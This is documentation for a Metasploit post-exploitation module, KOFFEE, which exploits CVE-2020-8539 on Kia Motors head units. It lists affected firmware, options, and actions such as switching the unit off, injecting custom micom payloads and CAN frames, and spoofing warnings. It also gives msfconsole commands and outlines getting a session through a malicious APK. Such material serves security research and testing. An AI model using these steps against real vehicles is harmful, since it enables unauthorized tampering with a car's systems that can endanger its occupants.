 ## Vulnerable Application

KOFFEE exploits the CVE-2020-8539, which is an Arbitrary Code Execution vulnerabilty that allows a user
to execute the micomd binary with valid payloads on Kia Motors Head Units.
By using KOFFEE an attacker can send crafted micomd commands to control the head unit and send CAN bus frames
into the Multimedia CAN (M-Can) of the vehicle.

### Vulnerable Head Unit software versions
- SOP.003.30.180703
- SOP.005.7.181019
- SOP.007.1.191209

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use post/android/local/koffee`
- [ ] `set session 1`
- [ ] `toogle_radio_mute` or `run`

### What do you need
* An active session with the Head Unit

## Options
- MICOMD: it contains the path to micomd executable
- NUM_MSG: it expresses the number of MICOM commands sent each time
- PERIOD: it indicates the time (ms) interval between two MICOM commands, aka Period of CAN frames
- SESSION: it referes to the metasploit session number on which this module is run.
- CMD_PAYLOAD: It refers to the Micom payload to be injected, e.g.,  cmd byte1 byte3 byte2'.
By default it is set to `00 00 00`. This options works only for the `INJECT_CUSTOM` action

## Actions

The following actions can be triggered on the Head Unit. An action can be triggerd by inserting in the
metasploit input console the action name in lowercase, e.g., camera_reverse_off.

- CAMERA_REVERSE_OFF:       It hides the parking camera video stream
- CAMERA_REVERSE_ON:       It shows the parking camera video stream
- CHANGE_CLUSTER_LANGUAGE:  It changes the cluster language
- HIGH_SCREEN_BRIGHTNESS:  It increases the head unit screen brightness
- INJECT_CUSTOM:            It injects custom micom payloads
- LOW_FUEL_WARNING:         It pops up a low fuel message on the head unit
- LOW_SCREEN_BRIGHTNESS:    It decreses the head unit screen brightness
- MAX_RADIO_VOLUME:        It sets the radio volume to the max
 - NAVIGATION_FULL_SCREEN:   It pops up the nagitaion app
- REDUCE_RADIO_VOLUME:      It reduces radio volume
- SEEK_DOWN_SEARCH:         It triggers the seek down radio frequency search
- SEEK_UP_SEARCH:           It triggers the seek up radio frequency search
- SET_NAVIGATION_ADDRESS:   It pops up the nagitaion address window
- SWITCH_OFF_Hu:            It switches off the head unit
- SWITCH_ON_Hu:             It switches on the head unit
 - TOGGLE_RADIO_MUTE        It mutes/umutes the radio

An action can be also triggered using the commands:
- [ ] `set action CAMERA_REVERSE_ON`
- [ ] `run`

To execute the `INJECT_CUSTOM` action, you may want also to set up the right payload.
The commands to use to trigger this action are
- [ ] `set action INJECT_CUSTOM`
- [ ] `set CMD_PAYLOAD 01 FF`
- [ ] `run`

## Scenarios
KOFFEE can be run as post-exploitation module when an active session is available with the Head Unit (HU).
First, an attacker may create a malicious apk to generate a remote connection with the HU.
For instace, using msfvenom or other tools, an attacker can create the malicious apk that, once installed in the HU,
starts an active session. Now, the attacker is able to use the KOFFEE exploit to take control of the HU and
inject CAN bus frames into the M-CAN bus of the vehicle.


### Usage

```bach
msf6 > use post/android/local/koffee
msf6 post(android/local/koffee) > set session 1
session => 1
msf6 post(android/local/koffee) > toggle_radio_mute

[*]  -- Starting action -- 
[*]  -- Mute/umute radio -- 
[+]  -- Command Sent -- 
```
